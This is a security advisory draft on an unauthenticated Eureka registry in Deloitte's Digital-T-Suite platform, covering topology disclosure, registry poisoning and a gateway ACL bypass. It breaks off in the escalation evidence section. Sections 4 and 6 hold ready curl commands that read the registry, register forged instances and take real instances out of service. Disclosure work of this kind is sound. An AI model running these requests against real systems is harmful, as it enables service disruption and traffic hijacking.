# Unauthenticated Eureka Registry in Deloitte Digital-T-Suite Enables Service Registry Poisoning and Service Parameter Injection

| Item | Detail |
|---|---|
| Vendor | Deloitte (Digital-T-Suite / TMS / TIS, iBizSys R8 framework) |
| Product | Deloitte Digital-T-Suite Enterprise Tax Platform |
| Component | `utility` microservice exposing a Spring Cloud Netflix Eureka Server |
| Vulnerability classes | CWE-306 Missing Authentication for Critical Function (read); CWE-862 Missing Authorization (write); CWE-284 Improper Access Control (gateway ACL bypass) |
| Severity | Critical at product level; High per single instance |
| Attack vector | Network, unauthenticated, no credentials, no user interaction |
| Affected scope | Every deployment that exposes `utility` directly to the internet; the same build artifact is replicated across customer environments |
| Verification window | 2026-10-03 to 2026-10-25, against authorized internet-facing deployments |
| CVE | Request pending |
| Disclosure status | Public advisory draft — customer identifiers withheld |

> **Public release note.** Customer domains, company names and public IP addresses are masked in the text and in every screenshot. Session cookies, bearer tokens and `Host` values belonging to customers are masked as well. Private (RFC 1918) addresses and Eureka instance identifiers are kept, because they are the technical evidence for the gateway-bypass and instance-poisoning claims and cannot be routed from the internet. Deloitte's own product domains (`digital-tsuite.com.cn`) are retained so that product attribution remains verifiable. The detailed asset inventory and the operational PoC scripts are not part of this public release. See Appendix A.

---

## 1. Vulnerability Summary

Deloitte's Digital-T-Suite Enterprise Tax Platform is built from a set of Spring Cloud microservices (BASE / DM / TDA / TRA / VATRPT / VATFP / EIT / ATF / MIS / TOMRE / RETURNHUB / RND / KYR / GATEWAY / UTILITY). The root path of the **`utility` service is a Netflix Eureka service registry** with two properties:

1. **Unauthenticated read.** `GET /utility/eureka/apps` returns the complete service registry anonymously: for every microservice, the real **internal IP address, listening port, status, version, and management port** are disclosed.
2. **Unauthenticated write.** `POST` / `PUT` / `DELETE` on `/utility/eureka/apps/...` allow an anonymous caller to **register a forged instance, renew its lease, or deregister any instance**. A registered instance with `status=UP` becomes an active routing candidate (204 on write, read back with 200).
3. **Gateway ACL bypass.** The operator's "backend service access restriction" is applied only to the `/gateway/**` path prefix. The same backend is reachable directly through `/utility/**`, where the restriction does not apply.

This is a **product-level design flaw**, not a single-site misconfiguration: the unauthenticated `utility` artifact is replicated into every customer deployment, and the access control is implemented at the gateway prefix rather than at the service or network layer.

The impact is not theoretical. Unauthenticated writes were used to **remove and restore real online instances** (`PUT .../status?value=OUT_OF_SERVICE|UP`) and to **inject a `status=UP` instance under a real service name**, which the registry then published as an online candidate alongside genuine instances.

A non-intrusive sweep of the product fingerprint returned 354 internet-facing assets, of which 173 responded, **20 exposed the registry without authentication**, and **16 accepted unauthenticated writes** (verified by `POST` 204 plus read-back). The affected population includes Deloitte's own multi-tenant SaaS and multiple enterprise customer deployments.

---

## 2. Affected Scope

A deployment is affected when all of the following hold:

1. The `utility` microservice is reachable from an untrusted network (typically the public internet);
2. `/utility/**` (the Eureka REST API and the registry UI) is served without authentication;
3. The front proxy exposes both `/gateway/**` (with ACL) and `/<svc>/**` (direct passthrough) to the same backend;
4. The deployment uses the standard `utility` build, which does not bundle `spring-security` protection for `/eureka/**` or the `/utility/` management UI.

Because the defect is present in the delivered artifact, **the same issue is replicated to every environment built from it**; it is independent of the customer's business configuration.

---

## 3. Root Cause

### 3.1 Architecture and data flow

```
Internet
  │
  │  front proxy (routes by path prefix)
  ├── /gateway/**  ──►  Spring Cloud Gateway
  │                     (with "backend service access restriction" ACL, source-IP based)
  │
  └── /<svc>/**    ──►  the same backend microservices, directly
        ├── BASE        20010
        ├── DM          20020
        ├── TDA         20030
        ├── TRA         20040
        ├── VATRPT      20050
        ├── VATFP       20060
        ├── ATF         20070
        ├── EIT         20080
        ├── RETURNHUB   20200
        ├── MIS         20110
        ├── GATEWAY      8800
        └── UTILITY      8900  ──►  Spring Cloud Eureka Server (registry + UI)
```

### 3.2 Root cause 1 — the `utility` Eureka server has no authentication

Spring Cloud Netflix Eureka Server does not ship with authentication by default. The `utility` build does not add `spring-security` in front of `/eureka/**` or the management UI, so both the REST API and the web console accept anonymous requests from any reachable network. This is a property of the build artifact, so the exposure is reproduced wherever the artifact is deployed.

### 3.3 Root cause 2 — access control is implemented only at the gateway prefix

The "backend service access restriction" is a path-prefix ACL attached to `/gateway/**`. The front proxy simultaneously passes `/<svc>/**` straight through to the same backends, so the same lock is mounted on only one door:

| Request | Result |
|---|---|
| `GET /gateway/utility/eureka/apps` | 403 (ACL matched: "backend service access restriction is enabled; the current request IP is not allowed") |
| `GET /utility/eureka/apps` (direct) | 200 (ACL bypassed; full registry returned) |

### 3.4 Root cause 3 — the registry's read and write surfaces share one unauthenticated API

Eureka's register / renew / deregister operations (`POST` / `PUT` / `DELETE`) are served by the same unauthenticated interface as reads. An anonymous caller can therefore inject an instance into the registry. If the injected instance uses an **existing service name**, service discovery (Ribbon / Spring Cloud LoadBalancer) treats it as another healthy node and adds it to the load-balancing candidate pool — which is the precondition for traffic steering and hijacking.

---

## 4. Reproduction

The sequence below follows: unauthenticated read → unauthenticated write → gateway ACL bypass → impact on real instances. Every request was sent without a cookie, token, or authentication header. Write operations used a globally unique, non-existent probe service name, a loopback address, and a short lease, and were deregistered and re-verified immediately afterwards.

### 4.1 Step 1 — Unauthenticated read of the full registry

```bash
# No cookie / token / auth header
curl -s "http://<target>/utility/eureka/apps" -H "Referer: http://<target>/portal/"
# -> 200, returns all microservices and instances: app / instanceId / ipAddr / port / status

# Control: the operator's access restriction is attached only to the gateway prefix
curl -s -o /dev/null -w "gw=%{http_code}\n" "http://<target>/gateway/utility/eureka/apps"
```

The anonymous request returns 200 with the full registry (XML or JSON), exposing each microservice's internal IP, listening port, status, version, and management port.





### 4.2 Step 2 — Unauthenticated write and read-back confirmation

```bash
# Write: unique probe name + loopback 127.0.0.1 + 60 s lease
curl -s -o /dev/null -w "%{http_code}\n" -X POST "http://<target>/utility/eureka/apps/PENPROBEZZZ" \
  -H "Content-Type: application/json" -H "Referer: http://<target>/portal/" \
  -d '{"instance":{"instanceId":"PENPROBEZZZ-i1","app":"PENPROBEZZZ","hostName":"127.0.0.1",
       "ipAddr":"127.0.0.1","status":"UP","port":{"$":1,"@enabled":"true"} }}'
# -> 204 (write accepted)

# Read back: confirm the instance is actually in the registry
curl -s "http://<target>/utility/eureka/apps/PENPROBEZZZ"   # -> 200, status=UP

# Cleanup and verify restoration
curl -s -X DELETE "http://<target>/utility/eureka/apps/PENPROBEZZZ/PENPROBEZZZ-i1"
curl -s -o /dev/null -w "%{http_code}\n" "http://<target>/utility/eureka/apps/PENPROBEZZZ"  # -> 404
```

A 204 followed by a 200 read-back with `status=UP` shows that the forged instance is genuinely persisted, not merely echoed by the API.





### 4.3 Step 3 — Gateway ACL bypass by direct access

```bash
curl -s -o /dev/null -w "gw=%{http_code}\n"     "http://<target>/gateway/utility/eureka/apps"  # gw=403
curl -s -o /dev/null -w "direct=%{http_code}\n" "http://<target>/utility/eureka/apps"          # direct=200
```

The same backend is blocked through `/gateway/**` (403) but reachable through the direct `/utility/**` path (200). The access control exists only at the gateway layer and does not constrain the direct path.





### 4.4 Step 4 — Impact on a real instance (reversible)

```bash
# [1] Remove a real online instance from the routing pool, then restore it immediately
curl -s -o /dev/null -w "%{http_code}\n" -X PUT \
  "http://<target>/utility/eureka/apps/<APP>/<realInstanceId>/status?value=OUT_OF_SERVICE"   # -> 200
curl -s -o /dev/null -w "%{http_code}\n" -X PUT \
  "http://<target>/utility/eureka/apps/<APP>/<realInstanceId>/status?value=UP"               # -> 200

# [2] Inject an instance under a real service name with ipAddr=127.0.0.1:8089
#     6/6 targets accepted the write; every injected instance was deregistered or expired, zero residue
```

Both operations require no credentials and are fully reversible. Section 6 contains the request/response transcripts and the zero-residual verification.



### 4.5 Consistency across customer environments

The same defect reproduces consistently on independent customer deployments, which indicates an architectural defect rather than a site-specific configuration error.







---

## 5. Impact

### 5.1 Unauthenticated read — complete disclosure of the internal topology

The registry discloses, in one request, the real internal IP, listening port, status, version, `management.port`, and context path of every microservice. This provides:

- a service-family map (VAT / VATFP / VATRPT = VAT and invoicing, EIT, MIS, ATF, TDA, TRA, TOMRE, RETURNHUB, RND, KYR, DM, BASE, GATEWAY, UTILITY);
- internal subnets and container-orchestration characteristics (for example Kubernetes pod naming in instance IDs);
- a ready-made base map for an attacker to locate the gateway (8800), business services, and internal management ports.

On its own this is information disclosure (Medium); combined with the write surface it escalates.

### 5.2 Unauthenticated write — service registry poisoning (core impact)

This is not arbitrary file or command writing (there is no RCE). It is a write to the registry data plane: the object being written is the *service instance record*, and the source is an unauthenticated internet request. The impact falls on service discovery, request routing, availability, and logging.

- **Registry poisoning.** The registry is the "phone book" between microservices; unauthenticated write means any internet caller can add, modify, or delete entries.
- **Traffic steering / hijacking (precondition proven; see Section 6).** Registering an instance under a real service name with `ipAddr` pointing to an attacker-controlled address and `status=UP` puts it into the load-balancing candidate pool. During testing, instances with `status=UP` and `ipAddr=127.0.0.1:8089` were injected under real service names (VATFP / UTILITY / KYR / TDA) and the read-back confirmed that the injected instance was published as an online candidate alongside genuine instances (`actionType: ADDED`). No real traffic was captured; the end-to-end hijack was not performed.
- **Availability control over real instances (proven; see Section 6).** An unauthenticated `PUT .../status?value=OUT_OF_SERVICE` removes a real online instance from the routing pool, and `PUT .../status?value=UP` restores it within seconds.
- **SSRF (inferred).** If the server fetches `healthCheckUrl` / `statusPageUrl` during registration or renewal, this can be abused as an internal SSRF trigger.
- **Denial of service.** Repeated unauthenticated deregistration or status changes can empty a service's routing pool; mass registration of forged instances can pollute the registry and amplify resolution/heartbeat load.
- **Log injection.** Instance fields are written into registry and consumer logs; control characters can be injected to interfere with audit and alerting.

### 5.3 Gateway ACL bypass — a reusable control failure

The operator implemented an access restriction, but it covers only the `/gateway` prefix; the direct `/utility/**` path bypasses it. Any management or sensitive surface that is "believed to be protected by the ACL" is only as protected as the direct paths behind it. This is a textbook decoupling of defense-in-depth boundaries from actual access paths.

### 5.4 Product-level amplification

- **Replication across customers.** The same `utility` artifact is deployed to many customer environments, so the defect is replicated with the product. It was confirmed simultaneously on multiple independent enterprise customers (identities withheld) and on Deloitte's own multi-tenant SaaS.
- **Cross-tenant spill-over.** `*.digital-tsuite.com.cn` is Deloitte's own SaaS. If production and test tenants share the same `utility` architecture or registry, exposure of one tenant may affect other tenants on the same host; the vendor must confirm management-plane isolation.
- **Remediation ownership.** The fix belongs first to the product vendor: one fix covers all deployments. Per-customer remediation leaves a very large residual surface.

### 5.5 Severity rationale

- **Single instance:** read = information disclosure (Medium) + ACL bypass = security-control bypass (Medium) + unauthenticated write to the registry (which can actively affect service discovery and traffic paths).
- **Product level:** the defect is inherent to the architecture and reproduces across customers and tenants (16 unauthenticated writable deployments measured). Remediation requires a product release.

Impact has been demonstrated, not merely inferred: unauthenticated writes can directly control the status of real online instances (`OUT_OF_SERVICE` removal / `UP` restore), and can inject a `status=UP` instance under a real service name so that service discovery publishes it as an online candidate.

---

## 6. Impact Escalation Evidence

### 6.1 Background

The initial product-level report established that the `utility` Eureka registry was anonymously readable and writable, but it only proved "the write API works" with a non-existent probe name. A review requested proof that an attacker could affect **real** services.

This section documents a reversible, non-destructive escalation test on authorized internet-facing assets, proving two real impact paths:

- **[#1] Availability control over real instances** — remove a real online instance from the routing pool (`OUT_OF_SERVICE`) and restore it immediately (`UP`);
- **[#2] Hijack precondition** — inject an instance under a real service name with `ipAddr` pointing to an attacker-controlled address and `status=UP`, then read back the registry to confirm that it was accepted as a candidate.

All write actions were restored or deregistered immediately, and the final state was independently verified as zero residual.

### 6.2 Target set

Six authorized targets were used. Customer addresses are withheld in this public version.

| # | Target | Registry path | Group |
|---|---|---|---|
| 1 | `saas.digital-tsuite.com.cn` (Deloitte SaaS) | `/utility/eureka/apps` | SAASPROD |
| 2 | Tenant under `*.digital-tsuite.com.cn` (name withheld) | `/utility/eureka/apps` | — |
| 3 | Deloitte-operated deployment (address withheld) | `/gateway/utility/eureka/apps` | — |
| 4 | Deloitte-operated deployment (address withheld) | `/utility/eureka/apps` | — |
| 5 | Deloitte-operated deployment (address withheld) | `/utility/eureka/apps` | ECCOTEST |
| 6 | Deloitte-operated deployment (address withheld) | `/utility/eureka/apps` | ECCOPROD |

### 6.3 Preconditions (no credentials required)

```bash
# Read the full registry without authentication — confirms the write surface and the real instance list
curl -s "https://<target>/utility/eureka/apps" -H "Accept: application/json"
# -> 200, {"applications":{"application":[{"name":"VATFP","instance":[ ... ]}, ...]}}

# The operator's access restriction is attached only to the gateway prefix
curl -s -o /dev/null -w "gw=%{http_code}\n"     "https://<target>/gateway/utility/eureka/apps"  # gw=403
curl -s -o /dev/null -w "direct=%{http_code}\n" "https://<target>/utility/eureka/apps"          # direct=200
```

### 6.4 [#1] Changing the status of a real instance (availability control)

Method: set a real online instance to `OUT_OF_SERVICE` (removing it from the service-discovery load-balancing pool), then immediately set it back to `UP`.

```bash
# Remove: real instance -> OUT_OF_SERVICE
curl -s -o /dev/null -w "%{http_code}\n" -X PUT \
  "https://<target>/utility/eureka/apps/<APP>/<realInstanceId>/status?value=OUT_OF_SERVICE"
# -> 200; read-back shows status=OUT_OF_SERVICE

# Restore: -> UP
curl -s -o /dev/null -w "%{http_code}\n" -X PUT \
  "https://<target>/utility/eureka/apps/<APP>/<realInstanceId>/status?value=UP"
# -> 200; read-back shows status=UP
```

Results (identifiers redacted):

| Target | Service | Remove | Restore |
|---|---|---|---|
| T2 | UTILITY | 200 -> OUT_OF_SERVICE | 200 -> UP |
| T3 | BASE | 200 -> OUT_OF_SERVICE | 200 -> UP |
| T4 | KYR | 200 -> OUT_OF_SERVICE | 200 -> UP |
| T5 | BASE | 200 -> OUT_OF_SERVICE | 200 -> UP |
| T6 | BASE | 200 -> OUT_OF_SERVICE | 200 -> UP |
| T1 | BASE | 404 (see note) | — |

